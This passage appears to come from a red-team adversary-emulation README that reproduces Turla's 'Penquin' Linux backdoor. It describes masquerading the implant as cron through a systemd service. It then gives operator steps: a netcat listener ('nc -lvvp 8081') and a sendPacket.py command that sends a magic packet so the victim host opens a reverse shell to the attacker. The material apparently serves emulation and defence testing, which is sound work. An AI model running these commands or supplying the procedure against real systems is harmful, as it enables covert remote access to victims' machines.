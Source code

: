     ```

    >
    >### Context for Implementation of cron
    >Based on the [Leonardo Report](https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+“Penquin_x64”.pdf) and [Presentation](https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s), Penquin deploys a legitimate version of the Linux utility `cron` and executes `cron` as a child process of Penquin. However, reporting was unclear on the series of events between Penquin’s initial execution and the execution of `cron`. To address this gap, Red Team developers hypothesized the below process tree was the objective of deploying `cron`, [Masquerading](https://attack.mitre.org/techniques/T1036/) Penquin as real cron. In order to provide this process tree, we leveraged the [Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/) technique to execute Penquin. 
        
    **Target Process Tree**
    
        - init
        -- systemd
        --- cron (our evil cron; listens for activation packets)
        ---- cron (real Linux cron utility; does cron things)

    <br/>

1. Verify the socket is actively listening. 
    ```
    ss -l -a -n -p | grep "cron"
    ```
    `p_raw` is where our evil cron is listening.

    Results should look like...
    ```zsh
    p_raw   UNCONN  0   0   *:eth0  *   users:(("cron",pid=1071197,fd=3))            
    ```
<br/>
<br/>

## Activation Packet (AKA Magic Packet)
---
#### On Attacker Host

These steps assume sniff.c(compiled) is already running on the victim host. On the attacker host, start a listener and execute this script. This script sends a crafted packet to the victim host activating a reverse shell connecting to the listener. 

1. Install all [requirements](./requirements.txt)
    ```
    pip install -r requirements.txt
    ```
1. In a terminal window, set up a `netcat` listener. Using `8081` ensures we are not conflicting with other listeners in this scenario. 
    ```
    nc -lvvp 8081
    ```
1. Open a second terminal window and navigate to the `/turla/Resources/Penquin` directory. Execute the `sendPacket.py` script. Update IPs/ports as needed - Penquin currently sniffs on all ports on the victim machine for the magic packet. Port `8080` is used based on [Lab52's report](https://lab52.io/blog/looking-for-penquins-in-the-wild/).
    ```
    sudo -E python3 sendPacket.py --handler_ip 10.0.2.8 --handler_port 8081 --target_ip 10.0.1.6 --target_port 8080 --payload_type base64
    ```
1. You will see the packet info in the terminal screen + the hexdump of the packet. The terminal output `Sent 1 packets` confirms the packet was successfully sent. 
1. Check the terminal window with the netcat listener, the reverse shell should be running inside the victim's `/root` directory. 
